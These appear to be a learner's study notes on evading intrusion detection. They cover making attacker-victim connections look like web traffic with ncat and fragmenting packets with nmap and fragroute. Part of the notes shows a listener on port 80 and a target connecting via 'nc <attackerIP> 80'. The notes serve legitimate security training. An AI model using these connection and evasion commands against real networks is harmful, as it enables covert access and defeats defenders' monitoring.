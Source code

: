 
- Alternatively, you can make it appear more like web traffic where clients(victim's machine) communicate with an HTTP server(attacker's machine).

		- On the attacker machine, to get Ncat to listen on TCP port 80, like a benign web server, you can use "ncat -lvnp 80".
		- On the target, connect to the listening server using "nc <attackerIP> 80".

![](/assets/img/Pasted image 20230125152215.png)


### Use Session Splicing (IP Packet Fragmentation)

- Another approach possible in IPv4 is ***IP packet fragmentation***, i.e., session splicing.
- The assumption is that if you ***break the packet(s) related to an attack into smaller packets, you will `avoid matching the IDS signatures`***.
- If the IDS is looking for a particular stream of bytes to detect the malicious payload, **divide your payload among multiple packets**.
- Unless the IDS reassembles the packets, the rule won't be triggered.

		- What function of the IDS reassembles packets?

- NMAP offers a few options to fragment packets. You can add:

- "`-f`" : to set the data in the IP packet to **8 bytes**.
- "`-ff`" : to limit the data in the IP packet to **16 bytes at most**.
- "`--mtu SIZE`" : to provide a custom size for data carried within the IP packet. The size should be a **multiple of 8**.

**Note**: Using NMAP to do this is still high-level. Review Dr. Du's Internet Security for low-level version of this.

##### Case 1:  Suppose you want to force all your packets to be fragmented into `specific` sizes.

	- By specific, does it mean it's not divisible by 8 bytes like in NMAP? Nope. not that. It has to be divisible by 8.

- In that case, you should consider using a program such as **Fragroute**: `https://www.monkey.org/~dugsong/fragroute/`
- `fragroute` : can be set to read a set of rules from a given configuration file and applies them to incoming packets.
- For simple **IP packet fragmentation**, it would be enough to use a configuration file with `ip_frag SIZE` to fragment the IP data according to the provided size. The size should be a multiple of 8.


##### For example, you can create a configuration file: `fragroute.conf`
- Having one line, `ip_frag 16`, to fragment packets where IP data fragments don't exceed 16 bytes.
- Then you would run the command `fragroute -f fragroute.conf HOST`.
- The `HOST` is the destination to which we would send the fragmented packets

		- Basically, "fragroute" is the tool to transport the crafted packets.
		- How can we create packets that is used offensively?

### Sending Invalid Packets
